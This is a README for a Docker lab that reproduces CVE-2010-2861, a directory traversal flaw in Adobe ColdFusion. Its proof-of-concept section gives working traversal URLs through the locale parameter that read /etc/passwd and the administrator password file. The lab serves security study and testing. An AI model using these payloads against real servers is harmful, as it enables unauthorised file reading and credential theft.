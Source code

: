 # Adobe ColdFusion Directory Traversal Vulnerability (CVE-2010-2861)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

There is a directory traversal vulnerability in the Adobe ColdFusion 9.0.1 and earlier, which allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.

## Environment setup

Execute the following command to start Adobe CouldFusion 8.0.1 server:

```
docker compose up -d
```

The server startup may take 1~5 minutes. After that, visit `http://your-ip:8500/CFIDE/administrator/enter.cfm` to see the initialization page, enter the password `admin` to initialize the entire server.

## POC

Read the file `/etc/passwd` via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`:

![](1.png)

Read the background administrator password via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en`:

![](2.png)
